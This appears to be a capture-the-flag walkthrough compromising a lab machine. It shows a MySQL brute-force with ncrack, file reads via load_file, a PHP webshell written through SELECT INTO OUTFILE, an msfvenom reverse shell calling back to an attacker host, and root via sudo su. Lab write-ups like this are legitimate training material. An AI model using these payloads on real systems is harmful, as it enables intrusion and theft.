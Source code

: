 # Port Enumeration
there are three open ports: 22, 80, and 3306
# Initial Access
On the index.php page, we see `beavis` and `butthead`. we can add these two to our `users.txt` file

We can try brute forcing the MySQL service:
```
ncrack -U users.txt -P /usr/share/wordlists/rockyou.txt -vv -T 5 mysql://192.168.212.9:3306
```
We get a credential pair

`beavis:rocknroll`
```
mysql -u beavis -h 192.168.212.9 -P 3306 -p --ssl-verify-server-cert=off
```
We can read the credentials in the friends database

We can also read the index.php file from the website:
```
select load_file('/var/www/html/index.php');
```
There is reference to a new directory in this file. It turns out that we have write access to this directory, so we can use SQL to write a webshell to that directory
```
select "<?php echo shell_exec($_GET['c']);?>" into OUTFILE '/var/www/html/M3t4LL1c@/webshell.php';
```
From here we can create a reverse shell binary to run on the target
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.212.4 LPORT=443 -f elf -o /tmp/reverse.elf
```
# Privilege Escalation
Once on the box, we can use some of the captured credentials to become the butthead user

The butthead user runs `sudo` with the `su` command:
```
sudo su
```
done!
